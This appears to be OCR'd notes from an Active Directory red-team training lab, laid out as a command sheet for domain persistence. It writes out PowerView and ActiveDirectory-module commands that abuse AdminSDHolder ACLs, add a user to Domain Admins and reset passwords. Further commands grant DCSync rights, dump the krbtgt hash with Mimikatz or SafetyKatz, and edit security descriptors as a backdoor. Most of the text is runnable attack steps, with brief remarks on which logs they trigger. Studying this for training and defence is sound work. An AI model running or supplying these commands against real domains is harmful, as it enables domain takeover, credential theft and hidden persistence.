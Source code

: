 Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dcdollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights WriteMembers -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
Run SDProp manually using Invoke-SDPropagator.ps1 from Tools directory - (this only runs every hour that applies everything from AdminSDHolder to all the protected group, so not waiting for an hour to compete we will run it manually.)
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose
For pre-Server 2008 machines -
Invoke-SDPropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose
NOW CHECKING THE SUCCESS! -->
Check the Domain Admins permission - PowerView as normal user -
Get-DomainObjectAcl -Identity 'Domain Admins' -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "student1"}
Using ActiveDirectory Module -
(Get-Acl -Path 'AD:\CN=Domain Admins,CN=Users,DC=dollarcorp,DC=moneycorp,DC=local').Access | ?{$_.IdentityReference -match 'student1'} 
NOW ABUSING OUR PERSISTED RIGHTS! -->
Abusing FullControl using PowerView -
Add-DomainGroupMember -Identity 'Domain Admins' -Members testda -Verbose
Using ActiveDirectory Module -
Add-ADGroupMember -Identity 'Domain Admins' -Members testda
Abusing ResetPassword using PowerView -
Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
Using ActiveDirectory Module -
Set-ADAccountPassword -Identity testda -NewPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
Rights Abuse - using ACLs (dangerous, MDI sensor goes nuts! when you do DCSync using this)
We do, Changes to Domain Object ACL, which gives 4662 logs with a message (write DACL perform on the object) which will be visible in Security Logs!
There are even more interesting ACLs which can be abused.
For example, with DA privileges, the ACL for the domain root can be modified to provide useful rights like FullControl or the ability to run "DCSync".
Add FullControl rights - 
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student1 -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
Using ActiveDirectory Module and RACE -
Set-ADACL -SamAccountName studentuser1 -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Right GenericAll -Verbose
Add rights for DCSync -
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student1 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
Execute DCSync -
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'

 or
 
 C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
BONUS --> dir \\dcorp-dc\c$ (check command execution on DA)
Security Descriptors - using ACLs
It is possible to modify Security Descriptors (security information like Owner, primary group, DACL and SACL) of multiple remote access methods (securable objects) to allow access to non-admin users.
Administrative privileges are required for this.
It works as a very useful and impactful backdoor mechanism.
Security Descriptor Definition Language (SDDL) defines the format which is used to describe a security descriptor. SDDL uses ACE strings for DACL and SACL -
ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid
ALL WE NEED TO CHANGE ABOVE IS THE account_sid WITH THE USER THAT WE CONTROL.
ACE for built-in administrators for WMI namespaces -
A;CI;CCDCLCSWRPWPRCWD;;;SID
Security Descriptors - WMI 